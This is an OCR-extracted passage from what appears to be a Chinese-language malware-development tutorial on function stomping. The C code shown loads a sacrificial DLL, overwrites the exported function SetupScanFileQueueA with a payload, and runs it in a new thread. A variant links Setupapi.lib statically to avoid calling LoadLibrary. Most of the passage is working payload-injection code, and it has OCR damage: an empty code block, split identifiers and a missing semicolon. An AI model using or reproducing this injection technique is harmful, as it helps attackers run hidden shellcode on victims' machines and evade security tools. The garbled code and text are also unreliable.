 ```
return TRUE;
}
int main() {
PVOID pAddress = NULL;
HMODULE hModule = NULL;
HANDLE hThread = NULL;
printf("[#] Press <Enter> To Load \"%s\" ... ", SACRIFICIAL_DLL);
getchar();
printf("[i] Loading ... ");
hModule = LoadLibraryA(SACRIFICIAL_DLL);
if (hModule == NULL){
printf("[!] LoadLibraryA Failed With Error : %d \n", GetLastError());
return -1;
}
printf("[+] DONE \n");
pAddress = GetProcAddress(hModule, SACRIFICIAL_FUNC);
if (pAddress == NULL){
printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError
());
return -1;
}
printf("[+] Address Of \"%s\" : 0x%p \n", SACRIFICIAL_FUNC, pAddress);
printf("[#] Press <Enter> To Write Payload ... ");
getchar();
printf("[i] Writing ... ");
if (!WritePayload(pAddress, Payload, sizeof(Payload))) {
return -1;
}
printf("[+] DONE \n");
printf("[#] Press <Enter> To Run The Payload ... ");
getchar();
hThread = CreateThread(NULL, NULL, pAddress, NULL, NULL, NULL);
if (hThread != NULL)
WaitForSingleObject(hThread, INFINITE);
printf("[#] Press <Enter> To Quit ... ");
getchar();
return 0;
}
```  
### 将 DLL 插⼊⼆进制⽂件  
  
⽆需使⽤ 加载 DLL LoadLibrary，然后使⽤ 检索⽬标函数的地址GetProcAddress，⽽是可以将DLL 静态链接到⼆进制⽂件中。使⽤ pragma comment 编译器指令可以实现这⼀点，如下所示。  
```
```  
  
然后，只需使⽤地址运算符（例如&SetupScanFileQueueA）即可检索⽬标函数。下⾯的代码⽚段更新了之前的代码⽚段，以使⽤ pragma comment 指令。  
```
#pragma comment (lib, "Setupapi.lib")
int main() {
HANDLE hThread = NULL;
getchar();
if (!WritePayload(&SetupScanFileQueueA, Payload, sizeof(Payload))) { //
Using the address-of operator
return -1;
}
getchar();
hThread = CreateThread(NULL, NULL, SetupScanFileQueueA, NULL, NULL, NUL
L);
if (hThread != NULL)
WaitForSingleObject(hThread, INFINITE)
getchar();
return 0;
}
```